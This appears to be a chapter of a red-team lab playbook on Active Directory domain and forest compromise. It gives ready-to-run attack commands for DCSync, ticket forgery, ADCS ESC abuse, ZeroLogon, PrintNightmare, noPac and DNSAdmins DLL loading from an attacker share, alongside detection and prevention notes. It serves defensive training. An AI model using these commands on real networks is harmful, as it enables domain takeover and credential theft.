


# 07 — Domain & Forest Compromise (DF-001..100)

End game. These are the techniques that turn "I have a foothold" into "I own the forest." Many depend on chains from earlier docs (CRED + LAT + ADCS).

### ADCS ESC Vulnerability Paths



### Cross-Forest and Relays



---

### DF-001 — Golden Ticket
See PER-018. Forge TGT with krbtgt hash → impersonate any principal in the domain.

---

### DF-002 — Silver Ticket
See PER-019.

---

### DF-003 — DCSync All Hashes
**What it is:** dump every credential in the domain (NT hashes + Kerberos keys + machine secrets + krbtgt). End-state credential access.
**Tools:** `impacket-secretsdump -just-dc`.
**Steps:**
```bash
impacket-secretsdump empire.local/doctor.strange:'EmpireLab2024!'@10.10.0.10 -just-dc
```
**Detection:** Defender for Identity native; non-DC IP issuing DRSR.
**Prevention:** audit DCSync rights; remove non-DC principals with `Replicating Directory Changes (All)`.

---

### DF-004 — DCShadow
See CRED-015.

---

### DF-005 — SID-History Injection (Forest)
See PER-016. Cross-forest variant: inject Enterprise Admin SID from foreign forest.

---

### DF-006 — Trust Ticket Abuse (Inter-Realm TGT)
**What it is:** with the trust key (`TrustKey2024!`), forge an inter-realm TGT for the trusted forest's krbtgt.
**Tools:** mimikatz `kerberos::golden /service:krbtgt /target:rebel.local /sid:EMPIRE /rc4:TRUSTHASH`.
**Detection:** anomalous inter-realm `4769`s.
**Prevention:** rotate trust keys; selective auth; SID filtering.

---

### DF-007 — ExtraSID Parent-Child
**What it is:** in a parent-child trust, SID filtering is *not* applied — a child-domain admin can forge a TGT with parent's Enterprise Admin SID (RID 519) and become EA.
**Why it works here:** `eu.empire.local` is a child of `empire.local`.
**Tools:** mimikatz `kerberos::golden /sids:S-1-5-21-EMPIRE-519`.
**Steps:**
```powershell
# from eu.empire.local DA, knowing eu.empire.local krbtgt hash:
.\mimikatz.exe "kerberos::golden /user:Administrator /domain:eu.empire.local /sid:S-1-5-21-EU /sids:S-1-5-21-EMPIRE-519,S-1-5-21-EMPIRE-512 /krbtgt:EUKRBHASH /ptt"
.\mimikatz.exe "lsadump::dcsync /domain:empire.local /user:krbtgt"
```
**Detection:** MDI native alert; abnormal cross-domain TGS with EA SIDs.
**Prevention:** there is *no built-in SID filtering on parent-child trusts*. The mitigation is treating every child-domain admin as forest admin. Modern advice: one forest, one domain.

---

### DF-008 — SID Filtering Bypass
**What it is:** external/forest trust with SID filtering disabled allows the cross-forest TGT to carry arbitrary SIDs.
**Tools:** mimikatz golden + foreign SID.
**Detection:** MDI.
**Prevention:** ensure SID filtering is enabled (`netdom trust /enablesidhistory:no`); quarantine attribute.

---

### DF-009 — Foreign Security Principal Hijack
See LAT-034.

---

### DF-010 — Cross-Forest Kerberoasting
**What it is:** services in a trusted forest still have crackable SPNs reachable via the trust. Kerberoast across.
**Tools:** `Rubeus kerberoast /domain:rebel.local`, `impacket-GetUserSPNs -target-domain rebel.local`.
**Detection:** abnormal cross-realm TGS requests.
**Prevention:** AES-only; gMSAs; selective auth.

---

### DF-011 — ADCS ESC8 (Web Enrollment NTLM Relay)
**What it is:** HTTP web enrollment is enabled on the CA without Extended Protection for Authentication (EPA). An attacker can coerce authentication from a domain controller (using PetitPotam or PrinterBug) and relay the NTLM authentication to the CA web enrollment portal to request a certificate for the Domain Controller machine account. The attacker can then use this certificate to authenticate via PKINIT and execute a DCSync.
**Tools:** `impacket-ntlmrelayx`, `Coercer`, `Certipy`.
**Steps:**
```bash
# 1. Start the relay tool on the attacker machine targeting the CA's web enrollment:
impacket-ntlmrelayx -t http://endor.empire.local/certsrv/certfnsh.asp --adcs --template DomainController

# 2. Coerce authentication from the domain controller (e.g., coruscant):
python3 coercer.py -u 'luke.skywalker' -p 'SithLord123!' -d 'empire.local' -t 10.10.0.10 -l 10.10.0.1

# 3. Relayed authentication yields a Base64-encoded certificate for coruscant$. Use it to request a TGT:
certipy auth -pfx coruscant.pfx -dc-ip 10.10.0.10
```
**Detection:** MDI ADCS ESC8 alert; abnormal ADCS certs issued to DC$ by non-DC requester; Sysmon Event ID `3` (Network connection) to ADCS port 80.
**Prevention:** Disable HTTP Web Enrollment if not needed; enable EPA and require SSL/TLS (HTTPS) on web enrollment virtual directories.

---

### DF-012 — ADCS ESC1 (SAN-spec template)
**What it is:** vulnerable template properties: `mspki-certificate-name-flag = CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` + EKU Client Auth + Domain Users enroll + no manager approval. Request a cert specifying SAN = `Administrator@empire.local` → PKINIT as DA.
**Why it works here:** Ansible publishes `ESC1Template`.
**Tools:** `Certipy`.
**Steps:**
```bash
# Find vulnerable templates
certipy find -u peter.parker -p 'EmpireLab2024!' -dc-ip 10.10.0.10 -vulnerable -stdout

# Request a certificate specifying SAN = Administrator
certipy req -u peter.parker -p 'EmpireLab2024!' -ca corp-CA-CA -template ESC1Template \
   -upn Administrator@empire.local -target endor.empire.local

# Authenticate with the obtained certificate
certipy auth -pfx administrator.pfx -dc-ip 10.10.0.10
```
**Detection:** ADCS `4886`/`4887` with requester ≠ SAN; MDI ESC1.
**Prevention:** remove `ENROLLEE_SUPPLIES_SUBJECT` from templates with Client Auth EKU; require manager approval.

---

### DF-013 — ADCS ESC2 (Any Purpose / SubCA EKU)
**What it is:** template with EKU "Any Purpose" or empty → cert usable for any purpose, including SubCA (sign other certs).
**Tools:** `Certipy`.
**Steps:**
```bash
# Request a certificate from the vulnerable ESC2 template
certipy req -u peter.parker -p 'EmpireLab2024!' -ca corp-CA-CA -template ESC2Template -target endor.empire.local
```
**Detection:** ADCS abnormal EKU on issued certs.
**Prevention:** never publish templates with "Any Purpose" EKU enrollable by users.

---

### DF-014 — ADCS ESC3 (Enrollment Agent Template)
**What it is:** An enrollment agent template is published that allows a user to request a certificate on behalf of another user. The attacker requests an Enrollment Agent certificate first, then uses it to enroll a second certificate for a Domain Admin user.
**Tools:** `Certipy`.
**Steps:**
```bash
# 1. Request the Enrollment Agent certificate
certipy req -u peter.parker -p 'EmpireLab2024!' -ca corp-CA-CA -template ESC3Agent -target endor.empire.local

# 2. Request a certificate on behalf of Administrator using the agent certificate
certipy req -u peter.parker -p 'EmpireLab2024!' -ca corp-CA-CA -template User -on-behalf-of Administrator@empire.local -pfx agent.pfx -target endor.empire.local

# 3. Authenticate using the new certificate
certipy auth -pfx administrator.pfx -dc-ip 10.10.0.10
```
**Detection:** Event ID `4886` and `4887` with an enrollment agent signature present.
**Prevention:** Restrict Enrollment Agent templates; require manager approval; configure constraints on which users the agents can enroll on behalf of.

---

### DF-015 — ADCS ESC4 (Vulnerable Template ACL)
**What it is:** `GenericAll`/`WriteDACL` on a template → modify it to be ESC1 → exploit.
**Tools:** `Certipy`.
**Steps:**
```bash
# Modify the template to make it vulnerable to ESC1 (saving the original template configuration)
certipy template -u peter.parker -p 'EmpireLab2024!' -template ESC4Template -save-old -dc-ip 10.10.0.10

# Request the admin certificate using SAN injection, then restore original configuration
```
**Detection:** Event `5136` on template object; MDI ESC4.
**Prevention:** audit template DACLs; restrict to PKI admins.

---

### DF-016 — ADCS ESC5 (PKI Object ACL)
**What it is:** weak ACL on CA / PKI containers (NTAuthCertificates, Enrollment Services) allowing low-privileged users to write to them. An attacker can write a new CA or modify existing ones to compromise the PKI trust.
**Tools:** `Certipy`, ADSI Edit.
**Steps:**
```bash
# Query active PKI object ACLs to find write permissions
certipy find -u peter.parker -p 'EmpireLab2024!' -dc-ip 10.10.0.10
```
**Detection:** Event `5136` on PKI containers under the Configuration naming context.
**Prevention:** audit ACLs under `CN=Public Key Services,CN=Services,CN=Configuration`.

---

### DF-017 — ADCS ESC6 (EDITF_ATTRIBUTESUBJECTALTNAME2)
**What it is:** The Certificate Authority has the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag enabled. This allows any certificate request (even for secure templates like `User`) to specify a custom SAN in the request attributes. The CA will issue the certificate with the requested SAN, allowing instant user impersonation.
**Tools:** `Certipy`.
**Steps:**
```bash
# Request a standard user certificate but supply a custom SAN attribute
certipy req -u peter.parker -p 'EmpireLab2024!' -ca corp-CA-CA -template User -upn Administrator@empire.local -target endor.empire.local

# Authenticate with the issued certificate
certipy auth -pfx administrator.pfx -dc-ip 10.10.0.10
```
**Detection:** Event ID `4886`/`4887` with request attributes containing `SAN:upn=...`.
**Prevention:** Disable `EDITF_ATTRIBUTESUBJECTALTNAME2` on the CA by running `certutil -setreg policy\EditFlags -EDITF_ATTRIBUTESUBJECTALTNAME2` and restarting the CA service.

---

### DF-018 — ADCS ESC7 (Manager/Officer role abuse)
**What it is:** low-priv Certificate Manager / Officer can approve pending requests. Submit a sketchy cert request, approve it yourself.
**Tools:** `Certipy`.
**Steps:**
```bash
# 1. Submit a certificate request which goes to pending
certipy req -u peter.parker -p 'EmpireLab2024!' -ca corp-CA-CA -template User -upn Administrator@empire.local -target endor.empire.local

# 2. Approve the pending request using officer credentials
certipy ca -u peter.parker -p 'EmpireLab2024!' -ca corp-CA-CA -issue-request <ID> -target endor.empire.local

# 3. Retrieve the certificate
certipy req -u peter.parker -p 'EmpireLab2024!' -ca corp-CA-CA -retrieve <ID> -target endor.empire.local
```
**Detection:** ADCS audit logs; officer approval of unusual requests.
**Prevention:** require multi-person approval; restrict officer membership.

---

### DF-019 — ADCS ESC8 (ADCS Relay Web Enrollment)
**What it is:** HTTP web enrollment is enabled on the CA. Attackers coercion-relay NTLM credentials of computer accounts to the HTTP web enrollment portal to enroll certificates.
**Tools:** `impacket-ntlmrelayx`, `Coercer`.
**Steps:**
```bash
# Refer to the steps under DF-011 (NTLM Relay to ADCS Web Enrollment portal)
```
**Detection:** NTLM authentication to ADCS HTTP endpoints; Event ID `4886`/`4887` requests.
**Prevention:** Enforce HTTPS and EPA on IIS; disable NTLM on CA enrollment servers.

---

### DF-020 — ADCS ESC9 (No Security Extension)
**What it is:** template flag `CT_FLAG_NO_SECURITY_EXTENSION` set → cert doesn't carry the user's SID. If `StrongCertificateBindingEnforcement` is loose, you can rebind the cert to a different user via altSecurityIdentities.
**Tools:** `Certipy`.
**Steps:**
```bash
# Request a certificate from the template DVADEsc9
certipy req -u luke.skywalker -p 'SithLord123!' -ca corp-CA-CA -template DVADEsc9 -target endor.empire.local
```
**Detection:** abnormal altSecurityIdentities writes; Event ID `5136`.
**Prevention:** remove `CT_FLAG_NO_SECURITY_EXTENSION`; KB5014754 strict mapping.

---

### DF-021 — ADCS ESC10 (Weak CA Reg / Cert Publishers ACL)
**What it is:** writable CA registry / Cert Publishers group → publish your own cert or modify CA flags to disable strong certificate binding verification.
**Tools:** `Certipy`.
**Steps:**
```cmd
# Write to the CA registry keys to disable strong binding:
reg add "HKLM\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration" /v StrongCertificateBindingEnforcement /t REG_DWORD /d 0 /f
```
**Detection:** Event ID `4670` on CA registry; registry write events on the CA configuration.
**Prevention:** tier CA admins; strictly restrict registry permissions on CA servers.

---

### DF-022 — ADCS ESC11 (NTLM Relay to ICPR RPC)
**What it is:** RPC interface `ICertPassage` (ICPR) accepts NTLM and isn't EPA-protected → relay to issue certs.
**Tools:** `impacket-ntlmrelayx`.
**Steps:**
```bash
# Run the relay targeting the ICPR endpoint:
impacket-ntlmrelayx -t rpc://endor.empire.local --adcs --template DomainController
```
**Detection:** abnormal ICPR sessions; RPC connections to CA ICPR from non-standard systems.
**Prevention:** enforce Kerberos on CA RPC; EPA; ADV230002.

---

### DF-023 — Child → Enterprise Admin (no SID filtering)
See DF-007.

---

### DF-024 — noPac
See CRED-023.

---

### DF-025 — Certifried
See CRED-024.

---

### DF-026 — CVE-2022-33647 (S4U2Self LPE chain to EoP)
Prevention: patch.

---

### DF-027 — sAMAccountName spoofing across trust
**What it is:** noPac across trust boundary — rename machine to foreign DC's sAMAccountName → forge cross-realm TGT.
**Detection:** anomalous foreign-realm Kerberos; MDI.
**Prevention:** patch KB5008380; MachineAccountQuota=0.

---

### DF-028 — Read-Only DC Abuse (PRP)
**What it is:** Password Replication Policy on RODC reveals cached credentials. With RODC admin, expand the list (`Allowed-RODC-Password-Replication-Group`).
**Tools:** mimikatz `lsadump::dcsync /domain:empire.local /dc:rodc01 /user:Administrator` (against allowed accounts).
**Detection:** Event `4742` on `msDS-RevealOnDemandGroup`.
**Prevention:** strict PRP; RODC admin only for trusted ops.

---

### DF-029 — GPO Delegation → DA
See PE-018 / PER-034.

---

### DF-030 — Schema Admin Hijack
See PER-031.

---

### DF-031 — ADCS ESC13 (Issuance Policy → Group)
**What it is:** template's Issuance Policy OID is linked to a privileged group via `msDS-OIDToGroupLink`. Enrolling the template grants effective membership in that group.
**Tools:** `Certipy req -template ESC13Template`.
**Steps:**
```bash
certipy req -u peter.parker -p 'EmpireLab2024!' -ca corp-CA-CA -template ESC13Template
certipy auth -pfx peter.parker.pfx
# resulting TGT carries the linked group SID in PAC
```
**Detection:** ADCS audit + MDI ESC13.
**Prevention:** never link issuance policies to privileged groups; review `msDS-OIDToGroupLink`.

---

### DF-032 — ADCS ESC14 (Explicit Cert Mapping)
**What it is:** with `altSecurityIdentities` write on a victim AD object + a cert you control, map cert→victim. PKINIT auth → victim's TGT.
**Tools:** Certipy + `Set-ADUser -Add @{altSecurityIdentities=...}`.
**Detection:** Event `5136` on altSecurityIdentities; KB5014754 strict mapping rejects.
**Prevention:** strict cert mapping (KB5014754); audit altSecurityIdentities writes.

---

### DF-033 — ADCS ESC15 (EKUwu / CVE-2024-49019)
See CRED-028.

---

### DF-034 — ADCS ESC16 (CA-wide No Security Extension)
**What it is:** CA registry `DisableExtensionList` includes `szOID_NTDS_CA_SECURITY_EXT` → *all* issued certs miss the user-SID extension → ESC9-like, but for the whole CA.
**Tools:** `Certipy ca -disable-extension`.
**Detection:** registry change to CA `DisableExtensionList`.
**Prevention:** never disable szOID_NTDS_CA_SECURITY_EXT; require strict mapping.

---

### DF-035 — ZeroLogon (CVE-2020-1472)
**What it is:** Netlogon AES-CFB8 IV-of-zeros bug — set DC$ password to empty via crafted NetrServerAuthenticate2 calls. Then DCSync as DC.
**Why it works here:** `FullSecureChannelProtection=0`, unpatched.
**Tools:** `zerologon_tester.py`, `cve-2020-1472-exploit.py`.
**Steps:**
```bash
python3 zerologon_tester.py coruscant 10.10.0.10           # test
python3 cve-2020-1472-exploit.py coruscant 10.10.0.10      # exploit, sets DC$ password to empty
impacket-secretsdump -no-pass 'coruscant$'@10.10.0.10 -just-dc
# !!! restore DC password before leaving: reinstall_original_pw.py — otherwise replication breaks
```
**Detection:** MDI native; Event `5827` (Netlogon insecure RPC).
**Prevention:** patch (August 2020 cumulative); `FullSecureChannelProtection=1`.

---

### DF-036 — MS14-068
See CRED-063.

---

### DF-037 — Cross-Forest Trust Ticket with EA SID
See DF-006/008 — combined.

---

### DF-038 — Foreign Group Membership Privilege Escalation
See LAT-034.

---

### DF-039 — SCCM Site Takeover
**What it is:** SCCM with NAA + HTTP MP → harvest NAA creds → push-install coerces machine auth → relay to MSSQL site DB → site admin.
**Tools:** `sccmhunter`, `SharpSCCM`, `ntlmrelayx -t mssql://`.
**Steps:**
```bash
sccmhunter find -u peter.parker -p 'EmpireLab2024!' -d empire.local -dc-ip 10.10.0.10
sccmhunter naa -u peter.parker -p 'EmpireLab2024!' -t sccm.empire.local
```
**Detection:** SCCM audit logs; abnormal MSSQL `EXECUTE AS`; MDI.
**Prevention:** disable NAA; enhanced HTTP/PKI mode; tier SCCM admins.

### DF-040 — Diamond + Sapphire cross-forest persistence
**What it is:** Using Diamond or Sapphire tickets applied with a foreign `krbtgt` hash and SID History to maintain Enterprise Admin access persistently across forest boundaries.
**Tools:** `Rubeus`, `ticketer.py`.
**Steps:**
```bash
# Generate ticket on child/trusted forest inserting EA SID from target forest
impacket-ticketer -nthash FOREIGN_KRBTGT_HASH -domain-sid S-1-5-21-FOREIGN -extra-sid S-1-5-21-TARGET-519 -domain foreign.local Administrator
```
**Detection:** Event ID `4769` requests containing anomalous SID history values across trust boundaries.
**Prevention:** Enforce SID filtering on all trusts; rotate krbtgt passwords on both sides.

---

### DF-041 — Machine Account Quota Abuse
**What it is:** The `ms-DS-MachineAccountQuota` attribute allows any standard domain user to add up to a specified number of computer accounts (default 10, but set to 100 in the lab). Attackers use these computer accounts to perform Resource-Based Constrained Delegation (RBCD) or Shadow Credentials attacks.
**Tools:** `impacket-addcomputer`.
**Steps:**
```bash
# Create a new computer account:
impacket-addcomputer empire.local/luke.skywalker:SithLord123!@10.10.0.10 -computer-name evil$ -computer-pass SithLord123!
```
**Detection:** Event ID `4741` (A computer account was created) where the Creator is a standard user, not an administrator.
**Prevention:** Set `ms-DS-MachineAccountQuota` to `0` domain-wide:
```powershell
Set-ADDomain -Identity (Get-ADDomain) -Replace @{'ms-DS-MachineAccountQuota'=0}
```

---

### DF-042 — Unconstrained Delegation TGT Capture
**What it is:** A computer account (like `scarif$`) has unconstrained delegation enabled (`TrustedForDelegation=True`). When any user authenticates to `scarif` via Kerberos, their TGT is sent and cached in memory. An attacker who has compromised `scarif` can coerce the domain controller (`coruscant$`) to authenticate to `scarif`, capture the DC's TGT, and perform a DCSync.
**Tools:** `Rubeus`, `SpoolSample.exe` or `Coercer`.
**Steps:**
```cmd
# 1. Start monitoring/harvesting tickets on scarif (using Rubeus):
Rubeus.exe monitor /interval:5 /filteruser:coruscant$

# 2. Coerce the Domain Controller to authenticate to scarif:
SpoolSample.exe coruscant.empire.local scarif.empire.local

# 3. Load the captured TGT into memory:
Rubeus.exe ptt /ticket:<base64_ticket>

# 4. Perform DCSync:
secretsdump.exe -just-dc EMPIRE/coruscant$@10.10.0.10 -k -no-pass
```
**Detection:** Unusual authentication from DC accounts to member servers; Event ID `4624` (Logon) containing delegation flags; process execution of spooler/printer coercion tools.
**Prevention:** Disable unconstrained delegation on all systems; place high-privilege users in the "Protected Users" group (which prevents delegation of TGTs).

---

### DF-043 — Constrained Delegation (Protocol Transition)
**What it is:** A service account (e.g., `svc_c3po`) has constrained delegation configured with protocol transition (`TrustedToAuthForDelegation` set to true), allowing it to delegate to a service (like `HTTP/tatooine.empire.local`) on behalf of any domain user. The attacker uses the service account's NT hash to request a service ticket (TGS) for a Domain Admin user (e.g., `Administrator`) to access the target system.
**Tools:** `impacket-getST`.
**Steps:**
```bash
# Request a service ticket impersonating Administrator using svc_c3po's hash:
impacket-getST -nthash <hash_of_svc_c3po> -domain empire.local -spn HTTP/tatooine.empire.local -impersonate Administrator
```
**Detection:** Event ID `4769` (A Kerberos service ticket was requested) where `S4U2self` and `S4U2proxy` are executed for non-standard target SPNs.
**Prevention:** Do not use constrained delegation with protocol transition if possible; migrate to Resource-Based Constrained Delegation (RBCD) which does not require protocol transition.

---

### DF-044 — Resource-Based Constrained Delegation (RBCD)
**What it is:** RBCD shifts the authorization delegation configuration to the resource itself (via the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute). If an attacker has write access (e.g., `GenericWrite`) on a computer object, they can configure it to allow an attacker-controlled machine account (created via MAQ) to delegate authentication to it.
**Tools:** `impacket-rbcd`, `impacket-getST`.
**Steps:**
```bash
# 1. Configure RBCD on the target computer (scarif$) to allow delegation from the attacker computer (evil$):
impacket-rbcd empire.local/luke.skywalker:SithLord123!@10.10.0.10 -action write -delegate-to scarif$ -delegate-from evil$

# 2. Request a service ticket for cifs/scarif.empire.local impersonating Administrator:
impacket-getST -spn cifs/scarif.empire.local -impersonate Administrator empire.local/evil$:SithLord123!
```
**Detection:** Event ID `5136` (A directory service object was modified) on the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of the target computer.
**Prevention:** Do not grant non-admin accounts write access to computer objects; set `MachineAccountQuota` to 0.

---

### DF-045 — Shadow Credentials
**What it is:** If an attacker has write permissions on a target AD object, they can write to the `msDS-KeyCredentialLink` attribute. By writing a new public key/certificate mapping, they can authenticate as the target object using PKINIT (Kerberos cert-based auth) and obtain a TGT.
**Tools:** `pyWhisker`, `Certipy`.
**Steps:**
```bash
# Add a shadow credential key link:
certipy shadow auto -u luke.skywalker -p 'SithLord123!' -account target_user
```
**Detection:** Event ID `5136` indicating changes to the `msDS-KeyCredentialLink` attribute.
**Prevention:** Restrict write permissions to the `msDS-KeyCredentialLink` attribute on AD objects.

---

### DF-046 — Delegation Chaining Abuse
**What it is:** Combining multiple delegation vectors (e.g., unconstrained delegation on one host and constrained delegation on another) to escalate privileges. The attacker uses unconstrained delegation to capture credentials and then uses those credentials via constrained delegation to target other systems.
**Tools:** `Rubeus`, `impacket-getST`.
**Steps:**
```bash
# Perform the TGT capture on the unconstrained delegation host, then use impacket-getST or Rubeus s4u to pivot.
# Example: Use captured DC TGT to request delegated tickets
Rubeus.exe s4u /ticket:<TGT> /impersonate:Administrator /msdsspn:cifs/target.empire.local /ptt
```
**Detection:** Tracking and correlates of Kerberos delegation logs across multiple hosts.
**Prevention:** Enforce Tiered administrative boundaries; restrict delegation rights.

---

### DF-047 — S4U2self / S4U2proxy Kerberos Abuse
**What it is:** S4U2self allows a service to obtain a service ticket on behalf of a user to itself, while S4U2proxy allows it to delegate that ticket to another service. Attackers abuse these extensions using compromised service accounts to impersonate users to back-end services.
**Tools:** `Rubeus`, `impacket-getST`.
**Steps:**
```powershell
# Request a ticket for a back-end service using the service account credentials:
Rubeus.exe s4u /user:svc_account /rc4:hash /impersonate:Administrator /msdsspn:cifs/target.empire.local /ptt
```
**Detection:** Event ID `4769` requests containing `S4U` options.
**Prevention:** Restrict delegation settings; mark sensitive accounts as "Account is sensitive and cannot be delegated".

---

### DF-048 — Service Ticket Forgery (Silver Ticket Persistence)
**What it is:** Forging service tickets (TGS) directly using the service account's password hash, bypassing the Domain Controller entirely.
**Tools:** `impacket-ticketer`.
**Steps:**
```bash
# Forge a CIFS service ticket for a target machine:
impacket-ticketer -nthash <service_hash> -domain empire.local -spn cifs/target.empire.local -domain-sid <sid> Administrator
```
**Detection:** Event ID `4624` Logon Type 3 to the target server without a corresponding Kerberos TGS request logged on the DCs.
**Prevention:** Frequently rotate service account passwords; use strong passwords or gMSAs.

---

### DF-049 — DNSAdmins DLL Injection
**What it is:** Members of the `DnsAdmins` group can configure the DNS server service to load a custom plug-in DLL. Because the DNS service runs as `SYSTEM` on the Domain Controller, loading a malicious DLL grants the attacker instant code execution as `SYSTEM` on the DC.
**Tools:** `dnscmd.exe`.
**Steps:**
```cmd
# 1. Configure the server-level plugin DLL path pointing to an attacker-controlled share:
dnscmd.exe coruscant.empire.local /config /serverlevelplugindll \\10.10.0.1\share\evil.dll

# 2. Restart the DNS service (requires service restart permissions, which DnsAdmins usually have or can trigger via system reboot):
sc.exe stop dns
sc.exe start dns
```
**Detection:** Registry write of `ServerLevelPluginDll` under `HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters`; process creation of `dns.exe` loading an unsigned DLL.
**Prevention:** Limit membership in `DnsAdmins`; restrict remote DLL loading; do not run DNS on Domain Controllers if possible.

---

### DF-050 — Account Operators Group Abuse
**What it is:** Members of the `Account Operators` group have permissions to create, modify, and delete user accounts and groups (except administrative ones). The attacker uses this membership to modify target service accounts, change passwords, or add members to non-protected groups that grant server access.
**Tools:** ActiveDirectory PowerShell module.
**Steps:**
```powershell
# Add an account to a target group:
Add-ADGroupMember -Identity 'TargetGroup' -Members 'finance_sync'
```
**Detection:** Event ID `4728` (A member was added to a security-enabled global group) by an account in the Account Operators group.
**Prevention:** Limit the use of built-in operator groups; implement Role-Based Access Control (RBAC) with minimal privilege delegation instead.

---

### DF-055 — PrintNightmare (CVE-2021-34527)
**What it is:** A critical vulnerability in the Windows Print Spooler service that allows remote code execution. If the Print Spooler service is enabled on Domain Controllers, an authenticated user can exploit it to load a malicious driver DLL and execute code as `SYSTEM`.
**Tools:** PrintNightmare exploit scripts.
**Steps:**
```bash
# Run the PrintNightmare exploit script against the DC:
python3 CVE-2021-34527.py EMPIRE/luke.skywalker:SithLord123!@10.10.0.10 '\\10.10.0.1\share\evil.dll'
```
**Detection:** Sysmon Event ID `11` (FileCreate) and `7` (Image loaded) showing spooler service (`spoolsv.exe`) writing or loading DLLs from `C:\Windows\System32\spool\drivers\`.
**Prevention:** Disable the Print Spooler service on all Domain Controllers:
```powershell
Stop-Service -Name Spooler
Set-Service -Name Spooler -StartupType Disabled
```

---

### DF-060 — noPac / SamAccountName Spoofing (CVE-2021-42278 / CVE-2021-42287)
**What it is:** A combination of two vulnerabilities: CVE-2021-42278 allows an attacker to rename a machine account they control to match a Domain Controller's name (without the trailing `$`). CVE-2021-42287 allows requesting a TGT with the spoofed name, then renaming it back, causing the KDC to issue a TGS for the Domain Controller, resulting in instant Domain Admin privilege escalation.
**Tools:** `noPac.py`.
**Steps:**
```bash
# Run the exploit script to obtain an interactive shell:
python3 noPac.py empire.local/luke.skywalker:SithLord123! -dc-ip 10.10.0.10 --impersonate Administrator -shell
```
**Detection:** Event ID `4741`/`4742` showing rapid computer creation and renaming; Event ID `4769` requesting a service ticket where the client name does not exist or has recently changed.
**Prevention:** Apply Microsoft updates KB5008380 and KB5008631.

---

### DF-070..080 — ADCS ESC Attack Chains (pivots)
**What it is:** A collection of Active Directory Certificate Services (ADCS) misconfigurations (ESC1 to ESC11) that allow an attacker to pivot from a standard domain user to a Domain Admin or achieve full forest compromise by requesting spoofed certificates.
**Tools:** `Certipy`, `ForgeCert`.
**Steps:**
```bash
# Request a cert with SAN mapping:
certipy req -u luke.skywalker@empire.local -p SithLord123! -dc-ip 10.10.0.10 -target endor.empire.local -ca 'corp-CA' -template UserTemplate -upn administrator@empire.local -out admin
certipy auth -pfx admin.pfx -dc-ip 10.10.0.10
```
**Detection:** ADCS Event ID `4886`/`4887`; MDI alerts for certificate template modification and PKI abuse.
**Prevention:** Harden ADCS template configurations; disable unused enrollment endpoints; implement strict certificate binding.

---

### DF-081 — ExtraSID Cross-Forest Trust Abuse
**What it is:** If SID filtering is disabled on a forest trust, the forest trust allows the PAC of a Kerberos ticket to carry SIDs from the trusted forest. An attacker who compromises a child domain (or has a trust key) can forge an inter-realm TGT containing the Enterprise Admins SID (RID 519) of the root forest to gain administrative access across the forest boundary.
**Tools:** `mimikatz`, `impacket-ticketer`.
**Steps:**
```cmd
# Forge an inter-realm ticket with the Enterprise Admins SID:
mimikatz.exe "kerberos::golden /user:Administrator /domain:empire.local /sid:S-1-5-21-EMPIRE /sids:S-1-5-21-TRADE-519 /krbtgt:<hash> /ptt"
```
**Detection:** Event ID `4769` logged on the target forest DCs with anomalous cross-forest SIDs.
**Prevention:** Ensure SID filtering is enabled on all forest trusts (`netdom trust <trust> /quarantine:yes`).

---

### DF-082 — Transitive Trust Exploitation
**What it is:** Transitive trusts allow access to propagate through intermediate domains. If Domain A trusts Domain B, and Domain B trusts Domain C transitively, then Domain A trusts Domain C. Attackers exploit transitive paths to hop through domains to reach the ultimate target.
**Tools:** `nltest`, `PowerView`.
**Steps:**
```powershell
# Enumerate trust transitivity:
Get-DomainTrust -SearchBase "LDAP://..."
```
**Detection:** Cross-domain Kerberos requests hopping across multiple domain boundaries.
